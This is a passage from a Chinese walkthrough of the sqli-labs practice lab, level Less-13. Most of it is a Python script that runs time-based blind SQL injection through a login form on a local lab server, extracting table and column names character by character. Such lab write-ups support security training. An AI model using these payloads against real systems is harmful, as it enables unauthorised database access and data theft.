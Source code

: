 ![24](/medias/sqli-labs/24.png)

## Less-13

类似上一关，区别：使用`1')#`闭合单引号、括号后没有回显了，这才像正常登录逻辑

时间盲注

```python
import requests
import string
import time
# 下划线放最后，避免当作统配符吃掉特殊字符
flags = 'abcdefghijklmnopqrstuvwxyz0123456789,-\{\}_'
flag = ""

url = "http://127.0.0.1:8080/Less-13/"
i = 1
print("脚本正在运行.......")
while True:
    
    for s in flags:
        data = {
            "uname" : "1",
            "passwd" : "1", 
            "submit" : "Submit"
        }
        # 爆库
        # data['uname'] = "1') or if((substr((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)#"
        # 爆表
        data['uname'] = "1') or if((substr((select group_concat(table_name) from information_schema.tables where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)#"
        # 爆字段
        # data['uname'] = "1') or if((substr((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)#"
        
        start = time.time()
        resp = requests.post(url,data=data)
        # print(data['uname'])
        # print(resp.text)
        # exit()
        end = time.time()
        if end - start > 0.1:
            flag += s
            # 当盲注出正确字符时，才去盲注下一位(变量i的作用)
            i += 1
            print(f"[#]------result: {flag}")
            break
        elif end - start > 2:
            print("跑了这么久，跑完了吗？跑完我给你停了🤓👍")
            exit()
        else:
            pass
```
